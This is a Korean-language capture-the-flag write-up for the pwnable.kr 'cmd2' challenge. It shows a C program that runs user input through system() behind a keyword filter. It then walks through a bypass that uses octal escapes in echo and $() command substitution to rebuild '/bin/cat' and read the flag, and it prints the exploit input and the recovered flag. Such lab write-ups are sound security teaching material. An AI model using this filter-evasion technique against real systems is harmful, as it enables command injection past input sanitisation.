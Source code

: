 # cmd2 - 9 pt

```text
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```

## cmd2.c

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

`cmd1`문제와 같이 입력받는 `argv[1]`을 `system()`으로 실행을 한다.
그러나 `PATH`환경변수 및 다른 환경변수도 `memset`으로 초기화되고, 입력값에 필터를 둬서 어떻게든 `flag`를 보지 못하게 막고 있다. 막는 문자열은 `=`, `PATH`, `export`, `/`, `flag` 그리고 `backtick`(`) 이다.

## 아이디어

`echo` 명령어는 ASCII 값을 8진수로 받는다. 이걸 이용해보자

현재 `/`를 입력 문자열에서 필터링 하기 때문에 절대경로로 사용할 파일을 지정할 수가 없다. `echo` 명령어로 8진수로 `/`를 출력하게 하고 그걸 다시 명령어로 사용해 보자.

1. echo "\57bin\57cat"
2. $(echo "\57bin\57cat")
3. $(echo "\57bin\57cat") f*

다음과 같이 입력값을 구성한다. 먼저 위에서 언급했듯이 `echo`로 필터링에 걸리지 않고 `/bin/cat`을 입력한다. 그리고 `$()`로 command substitution을 해서 `echo`로 출력한 값을 명령어로 재사용한다. `f*`로 flag 파일을 명시하면 끝!

[이 친구가 아이디어를 줬습니다 (하트찡긋)](http://einai.tistory.com/entry/%EB%AC%B8%EC%A0%9C%ED%92%80%EC%9D%B4-pwnablekr-cmd2)

[그리고 이 친구를 좀 오랜시간동안 봤습니다](https://www.gnu.org/software/bash/manual/html_node/Bourne-Shell-Builtins.html#Bourne-Shell-Builtins)

## 풀자

```
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57bin\57cat") f*'
$(echo "\57bin\57cat") f*
FuN_w1th_5h3ll_v4riabl3s_haha
```